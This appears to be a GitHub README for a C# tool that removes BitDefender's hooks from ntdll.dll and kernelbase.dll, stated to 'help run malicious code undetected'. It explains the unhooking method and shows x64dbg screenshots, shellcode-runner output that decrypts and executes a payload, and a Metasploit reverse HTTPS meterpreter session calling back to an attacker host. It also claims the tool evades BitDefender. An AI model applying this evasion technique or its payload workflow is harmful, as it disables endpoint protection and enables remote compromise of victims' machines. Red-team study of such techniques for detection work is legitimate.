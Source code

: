 # Unhook Bit Defender
A C# application that unhooks **BitDefender** from **ntdll.dll** and **kernelbase.dll** to help run malicious code undetected.

The code is quite long (particularly the native Win32 structs), and I'm sure it could be optimised.

# Introduction
This C# code is based upon one of the techniques demonstrated in the RED TEAM Operator: Windows Evasion Course from [Sektor7](https://institute.sektor7.net), the original is written in C/C++. I would recommend any of the malware development courses, there is a lot of great stuff to learn about creating malware in C/C++.

When Windows creates a new process BitDefender injects the **atcuf64.dll** DLL into the process and hooks many of the **ntdll.dll/kernelbase.dll** functions. If, for example, `NtCreateProcess` is called by malicious code BitDefender is able to intercept the call, do it's anti-malware magic, then return execution to the thread (or kill the process if it is malicious).

The code maps another version of a DLL in memory, finds the `.text` section, and copies it over the hoooked version.

The code has been updated so you can map and unhook any DLL in memory.

# Proof of Concept in x64dbg

The following image shows the `ZwCreateProcess` function when BitDefender is not present:

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/NoBitDef.png?raw=true)


The following image shows the `ZwCreateProcess` function when Bit Defender has hooked into **ntdll.dll**. We can see the `jmp` instruction (this is the hook):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefHooks.png?raw=true)


And finally, this image shows the `ZwCreateProcess` function after being unhooked (the `jmp` instruction has been reverted back to the normal syscall):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefUnhooked.png?raw=true)


# Example
 
Execution of the code is shown below:

```
[+] Mapping Ntdll...
[+] Unhooking Ntdll...
[+] Original Dll address is 0x7FFE23450000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xE8
[+] NT_HEADERS address is 0x2396A5200E8
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 10
[+] First section is .text
[+] First section is at 0x2396A5201F0
[+] Analysing section .text
[+] .text section is at 0x2396A5201F0
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Mapping Kernelbase...
[+] Unhooking Kernelbase...
[+] Original Dll address is 0x7FFE20CB0000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xF0
[+] NT_HEADERS address is 0x2396A5200F0
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 7
[+] First section is .text
[+] First section is at 0x2396A5201F8
[+] Analysing section .text
[+] .text section is at 0x2396A5201F8
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Shellcode runner...
[+] Decrypting payload...
[+] VirtualAlloc...
[+] RtlMoveMemory...
[+] VirtualProtect (PAGE_NOACCESS)...
[+] Sleeping...
[+] VirtualProtect (PAGE_EXECUTE_READ)...
[+] ResumeThread...
```

And the magical meterpreter session:

```
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: dqyy0qcu) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:59384) at 2021-10-11 08:21:51 +010
```

# Notes
~~I haven't tested the code with anything malicious yet to see if it bypasses BitDefender. I will post my findings when I do.~~

~~I tested this against Bit Defender with a very basic `Virtualalloc`, `RtlMoveMemory`, `VirtualProtect`, `CreateThread` classic combo (with an encrypted payload). Bit Defender didn't detect anything malicious on disk (with scanning) but did kill the process when `CreateThread` was called.~~

The code was updated to unhook any loaded DLL. Unhooking **ntdll.dll** and **kernelbase.dll** bypasses Bit Defender in my tests.

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19043) with BitDefender AntiVirus Free Edition.
